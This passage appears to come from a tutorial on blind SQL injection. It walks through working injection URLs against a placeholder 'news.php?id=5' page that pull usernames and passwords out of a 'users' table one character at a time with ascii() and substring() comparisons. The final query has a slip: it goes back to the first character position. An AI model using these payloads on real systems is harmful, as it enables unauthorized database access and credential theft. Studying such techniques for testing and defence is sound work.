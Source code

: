 If the page is loading properly we now know that the column name is "password". If we get FALSE, then try another common name. In the above example, we merge "1" with the column "password", then the **substring()** function returns the first character.

* * *

###### EXTRACT DATA FROM DATABASE

Let say that we found the table "users" and the columns "username" and "password". It’s now time to use it to extract some relevant information.

```none
http://server/news.php?id=5 and ascii(substring((SELECT concat (username,0x3a,password) from users limit 0,1),1,1))>80
```

With the above query, the **substring()** function will return the first character from the first user in "users" table. The **ascii()** converts that first character into ascii value and then compare it with the symbol greater than">" .

Well at this step you already understand that, if the ascii character is greater then 80, the page will load properly. We will need to continue until we get false.

```none
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>95
```

Once again we get TRUE we will keep incrementing.

```none
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>98
```

We get TRUE again, let’s continue.

```none
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99
```

We got FALSE !!! We are done. We now found that the first character in username is char(99). Using the ascii converter we can easily understand that char(99) is the letter 'c'.

We will proceed now to the second character.

```none
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),2,1))>99
```

**NOTE:** To proceed the second character we have changed ",1,1" to ",2,1".

```none
http://server/news.php?id=5 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99
```

Same as before, if we get TRUE then we must continue to keep incrementing.
